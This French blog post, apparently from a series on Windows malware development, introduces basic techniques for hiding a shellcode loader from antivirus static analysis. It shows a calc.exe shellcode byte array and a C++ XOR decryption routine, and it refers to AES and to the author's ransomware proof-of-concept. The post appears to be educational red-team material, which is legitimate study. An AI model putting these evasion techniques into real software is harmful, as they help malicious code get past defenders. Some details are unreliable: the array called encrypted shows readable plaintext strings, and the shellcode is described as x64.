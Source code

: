 # Les bases de l'obfuscation

Nous avons créé ensemble dans le précédent post un exécutable utilisant l'API Windows pour exécuter un shellcode, super.

Le petit souci, c'est que les fonctions importées apparaitront directement dans la table des imports (pour plus d'informations, se référer à la troisième entrée de ma série d'article sur le format de fichier PE). Et les produits antiviraux ne sont pas bêtes ; pour ce qui touche à l'analyse statique, un exécutable qui importe le quatuor de fonctions utilisées dans le précédent post et qui inclut son payload "tel quel" va faire s'illuminer n'importe quelle console de SOC comme un sapin de noël. Dans ce post, nous allons donc visualiser les concepts basiques qu'un acteur malicieux pourrait utiliser afin d'obfusquer les signes les plus évidents de la dangerosité de son programme.

>Avertissement ; j'écris "concepts basiques" volontairement. Le but étant de montrer ici qu'il est possible d'obfusquer une fonction pour éviter qu'elle apparaisse lors d'une analyse statique, et de chiffrer un potentiel payload. En réalité, ça n'est pas avec un coup de moulinette XOR/AES et un simple appel au duo GetProcAddress/GetModuleHandle que vous allez contourner Windows Defender en l'an 2022. Mais en tant qu'introduction ? Ca fera l'affaire. Plus tard, j'aborderai peut-être des concepts plus avancés et surtout modernes, comme l'API Hashing utilisé par des acteurs malicieux de type APT, par exemple.

## Inclure un payload chiffré

Afin d'éviter qu'une solution anti-virale détecte statiquement notre payload non obfusqué, nous pouvons au préalable le chiffrer, l'inclure dans notre programme, puis le déchiffrer lors de l'exécution de notre programme. J'utiliserai deux algorithmes basiques, XOR et AES, à des fins de démonstration.

Pour commencer, remplacons les simples nullbytes de notre payload avec un magnifique shellcode faisant pop calc.exe, à des fins de démonstrations. Chiffré au préalable en dehors de ce programme, en utilisant la string "korielzeth"

```assembly
0xeb, 0x44, 0x5b, 0x33, 0xd2, 0x88, 0x53, 0x0b,
0x53, 0xb8, 0x80, 0x22, 0xbf, 0x74, 0xff, 0xd0,
0xeb, 0x45, 0x5b, 0x33, 0xd2, 0x88, 0x53, 0x0d,
0x53, 0x50, 0xb8, 0xa0, 0x05, 0xbf, 0x74, 0xff,
0xd0, 0xeb, 0x47, 0x5b, 0x33, 0xd2, 0x88, 0x53,
0x08, 0xeb, 0x4d, 0x59, 0x33, 0xd2, 0x88, 0x51,
0x04, 0x33, 0xd2, 0x6a, 0x05, 0x52, 0x52, 0x53,
0x51, 0x52, 0xff, 0xd0, 0x33, 0xd2, 0x52, 0xb8,
0x20, 0x4f, 0xbf, 0x74, 0xff, 0xd0, 0xe8, 0xb7,
0xff, 0xff, 0xff, 0x53, 0x68, 0x65, 0x6c, 0x6c,
0x33, 0x32, 0x2e, 0x64, 0x6c, 0x6c, 0x58, 0xe8,
0xb6, 0xff, 0xff, 0xff, 0x53, 0x68, 0x65, 0x6c,
0x6c, 0x45, 0x78, 0x65, 0x63, 0x75, 0x74, 0x65,
0x41, 0x58, 0xe8, 0xb4, 0xff, 0xff, 0xff, 0x63,
0x61, 0x6c, 0x63, 0x2e, 0x65, 0x78, 0x65, 0x58,
0xe8, 0xae, 0xff, 0xff, 0xff, 0x6f, 0x70, 0x65,
0x6e, 0x58
```

Long et et illisible par tout être humain normalement constitué (mes félicitations si vous arrivez à déchiffrer des opcodes x64 de visu, passez me voir à la prochaine édition de LeHack pour une bière gratuite), mais parfaitement fonctionnel. 

### XOR

La fonction visant à déchiffrer le payload une fois l'exécution commencée, plutôt simple, ressemblera à ça :


```cpp
void xordecrypt(LPWSTR payload, size_t payloadlen, LPWSTR clé, size_t clélen) {

	int j = 0;

	for (int i = 0; i < payloadlen; i++) {
		if (j == clélen - 1) j = 0;
		payload[i] = payload[i] ^ clé[j];
		j++;
	}

}
```

Où payloadlen et clélen correspondent à la longueur (via l'utilisation de sizeof() ) de notre payload et de notre clé.

### AES

La fonction visant à déchiffrer le payload une fois l'exécution commencée, plutôt simple, ressemble à ça. 

>Si vous êtes curieux concernant l'utilisation des fonctions cryptographiques de l'API Windows, vous pouvez aller jeter un oeil au deuxième post concernant mon journal de dévelopement d'une PoC de ransomware

